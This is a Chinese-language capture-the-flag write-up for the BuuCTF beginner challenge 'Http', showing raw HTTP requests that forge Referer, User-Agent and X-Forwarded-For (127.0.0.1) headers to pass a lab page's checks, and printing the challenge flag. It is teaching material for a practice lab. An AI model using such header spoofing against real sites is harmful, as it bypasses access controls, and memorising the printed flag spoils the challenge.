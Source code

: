 ```yaml
---
tags:
  - BuuCTF
  - 新手
---
```


# \[极客大挑战 2019\] Http

## 寻找目标

一上来发现什么有效的信息都没有，打开 F12，发现有个 `Secret.php`

![](https://p.sda1.dev/13/09ef9a4b8fac065220e72f29d7f74d55/image.png)

## Referer

点进去，发现他希望我们的请求来自 `https://Sycsecret.buuoj.cn`

![](https://p.sda1.dev/13/ccd8b04f09295b0ec82d19787a701d90/image.png)

遇到这种情况，我们首先想到的是我们 Http 请求中的 Header 应当有 **`Referer`** 值，且 `Referer` = `https://Sycsecret.buuoj.cn`，这个网址不一定是真的，但网站只会识别请求中的 Referer，他并不知道你到底从哪里来，你只需要按部就班就是了，于是我们使用一个 API 测试工具（我用的 Apifox）往请求中添加 Referer，可参考下面的 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

## User-Agent

发送请求后，可以看到如下界面，他希望我们使用 `Syclover` 浏览器访问这个网站，但是很明显，这个浏览器压根不存在，那么我们可以更改 Header 中的 **`User-Agent`**（简称 UA） 值来模拟一个 `Syclover` 浏览器，即 `User-Agent` = `Syclover`

![](https://p.sda1.dev/13/d1eaf8df2f944fb1ace78a8da45bd61a/image.png)

可参考下面的 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Syclover
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

## X-Forwarded-For

发送请求后，可见如下界面，翻译一下，他希望我们是本地用户，我都从外网访问了，我怎么才能让他觉得我是本地用户呢？这就需要伪造 Header 中的 **`X-Forwarded-For`**（简称 XFF）值，XFF 通常存储的是原始客户端的 IP 地址，那就是说，如果我的 `X-Forwarded-For` = `127.0.0.1`，那我就相当于伪造成了本地用户

![](https://p.sda1.dev/13/0f7bc66ebca507ef1f230b7f4a046130/image.png)

可参考以下 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

发送请求后，即可得出 Flag 为 `flag{dd80eb69-8471-45f2-b0e7-5865d5d11382}`
